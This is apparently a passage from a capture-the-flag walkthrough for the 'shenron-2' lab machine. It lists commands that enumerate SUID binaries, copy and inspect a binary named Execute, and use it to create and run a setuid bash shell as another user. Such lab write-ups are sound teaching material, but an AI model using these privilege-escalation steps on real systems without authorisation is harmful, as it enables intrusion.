




4.3 Look for utilities to run as root
1. Look for the utilities that can be run as “root”. Run on the victim machine the following code.
jenny@shenron-2:~$find / -type f -perm -u=s 2>/dev/null
Output:

The
/usr/bin/Execute binary seemed interesting.2. Download the file to your Kali Machine.
$scp jenny@192.168.12.39:/usr/bin/Execute ~/shenron2
3. Look up it’s content by using “strings” command.
$strings Execute
Output:

This binary does the following, it copies
/bin/bash to /mnt/bash and then gives it permission to run commands as user shenron and gives the “setuid” permission.4. Run the binary “Execute” on your SSH connection.
jenny@shenron-2:~$/usr/bin/Execute
5. Execute the new bash binary as the user “shenron”.
jenny@shenron-2:~$/mnt/bash -p
Output:

6. Look at “shenron's” id.
bash-5.0$id
Output:

EUID=Effective User ID.